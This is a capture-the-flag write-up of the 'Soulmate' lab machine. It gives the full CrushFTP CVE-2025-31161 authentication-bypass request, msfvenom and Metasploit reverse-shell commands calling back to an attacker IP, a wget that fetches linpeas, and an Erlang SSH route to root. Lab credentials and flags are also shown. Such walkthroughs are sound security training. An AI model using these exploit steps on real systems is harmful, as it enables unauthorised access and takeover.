

💕 Soulmate
🔧 SETUP
Add a local DNS resolution for the target:
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hostsRecon 👁️
NMAP
nmap -Pn -A 10.10.11.86Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-09 23:01 AEST
Nmap scan report for soulmate.htb (10.10.11.86)
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-title: Soulmate - Find Your Perfect MatchOpen Ports:
- SSH (22/tcp) - OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
- HTTP (80/tcp) - nginx 1.18.0 (Ubuntu)
Attack Surface:
- Web application on port 80 running PHP (evidenced by PHPSESSID cookie)
- SSH service for potential credential attacks or privilege escalation
- The missing httponly flag on session cookies suggests potential client-side security weaknesses
Website enumeration
I attempted to access the website soulmate.htb
Mainpage
#about

Found their email address which might be important: hello@soulmate.htb
Let's sign up and signin and see what interesting features we can find.

Hm… Profile page

I can edit my profile and upload an image. I tried to test if it can be exploited via file upload, but no bueno.
DNS Enumeration
gobuster vhost -u http://soulmate.htb -w /usr/share/seclists/Discovery/DNS/combined_subdomains.txt --append-domain -t 100===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://soulmate.htb
[+] Method: GET
[+] Threads: 100
[+] Wordlist: /usr/share/seclists/Discovery/DNS/combined_subdomains.txt
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
[+] Append Domain: true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: ftp.soulmate.htb Status: 302 [Size: 0] [-> /WebInterface/login.html]
Progress: 653920 / 653921 (100.00%)
===============================================================
Finished
===============================================================After running gobuster to find subdomains, I discovered ftp.soulmate.htb. Now add it to /etc/hosts
echo "10.10.11.86 ftp.soulmate.htb" | sudo tee -a /etc/hostsCrushFTP CVE-2025-31161 Discovery
Let's access http://ftp.soulmate.htb! → It redirected me to http://ftp.soulmate.htb/WebInterface/login.html

When encountering an unfamiliar technology or unusual web interface, the next logical step is to search for potential CVEs.

User 🙍🏻♂️
The vulnerability exists in the S3 authorization header processing logic within CrushFTP. Due to logic bugs in the underlying source code, a simple HTTP request with specific headers can bypass authentication without requiring valid credentials.
Exploitation ⚡
POST /WebInterface/function/ HTTP/1.1
Host: ftp.soulmate.htb
Cookie: currentAuth=31If; CrushAuth=1744110584619_p38s3LvsGAfk4GvVu0vWtsEQEv31If
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Connection: close
Content-Type: application/x-www-form-urlencoded
command=setUserItem&data_action=replace&serverGroup=MainUsers&username=test&user=test pass 1.0 / 6 0 (SITE_PASS)(SITE_DOT)(SITE_EMAILPASSWORD)(CONNECT) crushadmin 1744120753370 - (read)(view)(resume)
POST user creation request got HTTP 200 OK <user_name>test</user_name><password>pass</password>

Now, we can try to login test:pass ! LFG 🥳

Let's f**k around until we can get initial access
admin site

I can see other users in http://ftp.soulmate.htb/WebInterface/UserManager/index.html
- crushadmin
- default
- jenna
- ben
- TempAccount

However, I can only access three directories: ben, IT, and webProd.
Login as Ben
Changed Ben's password and login

Since the website is using PHP as its programming language, we can try to craft a malicious PHP file to get a reverse shell back to Metasploit.

Generate revershell php shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.17 LPORT=3000 -f raw -o shell.phpWe start a listener on msfconsole
msfconsole
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp
set LHOST 10.10.14.17
set LPORT 3000
runWe then upload the shell.php to webProd, since it is where the web server's document root is located, making uploaded files directly accessible via HTTP requests.
Upload shell.php

Trigger the shell.php to get the shell by accessing http://soulmate.htb/shell.php


I cannot go to Ben's directory. I have to find another way to climb my way up to Ben's privileges
I am a lazy guy so I'm just gonna run linpeas until I find vulnerabilities
Start an HTTP server to upload linpeas, as I cannot download files directly onto the victim machine
python3 -m http.server 8000wget http://10.10.14.17:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
Based on linpeas.sh, we found an Erlang script start.escript that exposed Ben's credentials!!!
cat /usr/local/lib/erlang_login/start.escript
#!/usr/bin/env escript
%%! -sname ssh_runner
main(_) ->
application:start(asn1),
application:start(crypto),
application:start(public_key),
application:start(ssh),
io:format("Starting SSH daemon with logging...~n"),
case ssh:daemon(2222, [
{ip, {127,0,0,1}},
{system_dir, "/etc/ssh"},
{user_dir_fun, fun(User) ->
Dir = filename:join("/home", User),
io:format("Resolving user_dir for ~p: ~s/.ssh~n", [User, Dir]),
filename:join(Dir, ".ssh")
end},
{connectfun, fun(User, PeerAddr, Method) ->
io:format("Auth success for user: ~p from ~p via ~p~n",
[User, PeerAddr, Method]),
true
end},
{failfun, fun(User, PeerAddr, Reason) ->
io:format("Auth failed for user: ~p from ~p, reason: ~p~n",
[User, PeerAddr, Reason]),
true
end},
{auth_methods, "publickey,password"},
{user_passwords, [{"ben", "HouseH0ldings998"}]},
{idle_time, infinity},
{max_channels, 10},
{max_sessions, 10},
{parallel_login, true}
]) of
{ok, _Pid} ->
io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
{error, Reason} ->
io:format("Failed to start SSH daemon: ~p~n", [Reason])
end,
receive
stop -> ok
end.We found ben credential ben:HouseH0ldings998
Read user.txt flag🚩
su ben
Password: HouseH0ldings998
whoami
ben
cd /home
ls
ben
cd ben
ls
user.txt
cat user.txt
8116a3f49273c16a51206d9ac3a69c0bRoot </>
Let's ssh into ben to get stable shell
ssh ben@10.10.11.86We know there's an Erlang-based SSH service running on port 2222 case ssh:daemon(2222. We can attempt to SSH into localhost account.
ssh ben@localhost -p 2222
Warning: Permanently added '[localhost]:2222' (ED25519) to the list of known hosts.
ben@localhost's password:
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>Check our current privlege
(ssh_runner@soulmate)2> os:cmd("whoami").
"root\n"Read root</> flag 🥳
(ssh_runner@soulmate)6> os:cmd("cat /root/root.txt").
"54e38f0eb10e8fc9473db12bf9d45d6b\n"
(ssh_runner@soulmate)7>🎯 Attack Chain Summary
This machine demonstrated a complete web application to root compromise through CVE exploitation and credential discovery:
Web Reconnaissance
→ Subdomain Discovery (ftp.soulmate.htb)
→ CrushFTP Identification
→ CVE-2025-31161 Authentication Bypass
→ User Creation via Malicious Request
→ Administrative Interface Access
→ Password Reset for Ben User
→ PHP Shell Upload to webProd
→ Initial Shell Access
→ Credential Discovery in Erlang Script
→ SSH Access as Ben
→ Local Erlang SSH Service (Port 2222)
→ Root Shell ExecutionKey Techniques Demonstrated
- CVE Exploitation: CVE-2025-31161 CrushFTP authentication bypass
- Subdomain Discovery: Using gobuster for vhost enumeration
- Credential Discovery: Finding hardcoded credentials in configuration files
- File Upload Exploitation: Uploading PHP shells through FTP interface
- Privilege Escalation: Leveraging misconfigured Erlang SSH service running as root
- Service Enumeration: Automated privilege escalation discovery with linpeas
Tools and Technologies Used
- Nmap: Network reconnaissance and service enumeration
- Gobuster: Subdomain and directory discovery
- Burp Suite: Web application testing and request manipulation
- msfvenom: Payload generation for reverse shells
- Metasploit: Multi-handler for catching reverse shells
- linpeas: Automated privilege escalation discovery
- CrushFTP: Target FTP service with authentication bypass vulnerability
- Erlang: SSH service configuration and command execution